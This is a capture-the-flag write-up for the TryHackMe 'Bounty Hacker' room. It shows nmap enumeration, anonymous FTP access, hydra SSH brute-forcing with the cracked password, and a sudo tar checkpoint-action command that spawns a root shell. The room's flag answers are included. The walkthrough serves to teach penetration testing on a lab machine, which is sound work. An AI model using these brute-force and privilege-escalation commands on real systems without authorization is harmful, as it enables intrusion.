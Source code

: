 ```yaml
---
description: May 18, 2025 - Xploit0x90
icon: flag
---
```


# Bounty Hacker

<figure><img src="../.gitbook/assets/1,286 (1)qweqwe.png" alt=""><figcaption></figcaption></figure>

* Difficulty : <mark style="color:green;">Easy</mark>
* Link : [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)
* Creator : [Sevuhl](https://tryhackme.com/p/Sevuhl)

**Bounty Hacker** is a beginner-friendly Linux machine focused on practicing classic techniques like service enumeration, brute-force attacks, SSH exploitation, and privilege escalation via misconfigured binaries. This room helps solidify foundational skills that are applicable in real-world penetration testing scenarios.

***

### 🚀 Deploy the Machine

I joined the [Bounty Hacker](https://tryhackme.com/room/cowboyhacker) room and deployed the target VM. Once the machine was running, I took note of the IP address:

```
10.10.128.176
```

***

### 🔍 Enumeration

I began with a full port scan using `nmap` to identify any open TCP ports on the system:

```bash
nmap -p- 10.10.128.176 --open
```

#### ➤ Explanation:

* `-p-`: Scans all 65535 TCP ports.
* `--open`: Shows only ports that are open.

**Discovered open ports:**

* **21** - FTP
* **22** - SSH
* **80** - HTTP

<div align="left"><figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure></div>

***

I then performed a targeted scan for these ports to get additional details:

```bash
nmap -p 21,22,80 -sC -sV 10.10.128.176
```

#### ➤ Explanation:

* `-sC`: Runs Nmap’s default scripts.
* `-sV`: Attempts to detect service versions.
* `-p`: Scans specific ports.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

***

### 🌐 Web Enumeration (Port 80)

Accessing the website:

```
http://10.10.128.176
```

The website was a basic HTML page containing messages referring to a hacker group. There wasn’t any login functionality or hidden directories visible.

***

### 📁 FTP Access (Port 21)

I tried logging in with anonymous FTP because the Nmap scan showed that the FTP service was open and might allow anonymous access.

```bash
ftp 10.10.128.176
```

Used credentials:

```
Username: anonymous
Password: [press Enter]
```

Login was successful.

#### ➤ Found two files:

* `task.txt`
* `locks.txt`

I downloaded both files using:

```bash
get task.txt
get locks.txt
```

<div align="left"><figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>Note: This is not the complete list of passwords.</p></figcaption></figure></div>

<div align="left"><figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure></div>

⚠️ **Note:** Using `less` inside the FTP shell didn’t display the full contents of the file. That’s why it’s **always better to use `get` to download the file to your local machine**, then open it with tools like `cat`, `nano`, or `less` **locally** to ensure you see everything.

***

### 📄 File Inspection

#### `task.txt`:

This file contained a short to-do list, signed by someone named **lin**.

{% hint style="info" %}
📌 **TryHackMe Question 1 :**\
&#xNAN;**❓ Who wrote the task list?**\
✅ **Answer:** `lin`
{% endhint %}

#### `locks.txt`:

This file contained a long list of possible passwords — possibly for brute-forcing access to some other service.

{% hint style="info" %}
📌 **TryHackMe Question 2 :**\
&#xNAN;**❓ What service can you bruteforce with the text file found?**\
✅ **Answer:** `SSH`
{% endhint %}

***

### 🔓 Brute-force SSH (Port 22)

Using the possible username `lin` (from task.txt), I attempted to brute-force SSH using `hydra` and the password list from `locks.txt`.

```bash
hydra -l lin -P locks.txt ssh://10.10.128.176
```

#### ➤ Explanation:

* `-l lin`: Sets the username to `lin`.
* `-P locks.txt`: Loads password candidates from the list.
* `ssh://`: Targets the SSH protocol.

✅ **Hydra Output:**

```
[22][ssh] host: 10.10.128.176   login: lin   password: RedDr4gonSynd1cat3
```

{% hint style="info" %}
📌 **TryHackMe Question 3 :**\
&#xNAN;**❓ What is the user’s password?**\
✅ **Answer:** `RedDr4gonSynd1cat3`
{% endhint %}

<div align="left"><figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure></div>

***

### 🔑 Gaining Access via SSH

I used the discovered credentials to log in via SSH:

```bash
ssh lin@10.10.128.176
```

After logging in, I listed the contents of the home directory and found a flag file:

```bash
cat user.txt
```

{% hint style="info" %}
📌 **TryHackMe Question 4 :**\
&#xNAN;**❓ user.txt**\
✅ **Answer:** `THM{CR1M3_SyNd1C4T3}`&#x20;
{% endhint %}

<div align="left"><figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure></div>

***

### 🧱 Privilege Escalation

To see what commands I could run as `sudo`, I executed:

```bash
sudo -l
```

The output showed:

```
User lin may run the following commands on this host:
    (root) /bin/tar
```

This means I could run the `tar` command with **root privileges** without a password.

***

### 📦 Exploiting tar with GTFOBins

I visited [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) and found a known method to escalate privileges using `tar`.

I used the following command to spawn a root shell:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

#### ➤ Explanation:

* `--checkpoint`: Defines after how many files the action is triggered.
* `--checkpoint-action`: Executes the given command (in this case, a shell).

I verified the shell:

```bash
whoami
root
```

Navigated to the root user’s directory:

```bash
cd /root
ls
cat root.txt
```

{% hint style="info" %}
📌 **TryHackMe Question 5 :**\
&#xNAN;**❓ root.txt**\
✅ **Answer:** `XXXXXXXXXXXXXXXX`&#x20;
{% endhint %}

<div align="left"><figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure></div>

***

### 💡 Lessons Learned

* FTP servers with anonymous access can expose sensitive files.
* Always check file contents — even simple text files can provide usernames or passwords.
* Hydra is a powerful tool for brute-forcing services when you have good input lists.
* Always check `sudo -l` to find potential privilege escalation vectors.
* [GTFOBins](https://gtfobins.github.io/) is a goldmine for exploiting misconfigured binaries that have sudo privileges.
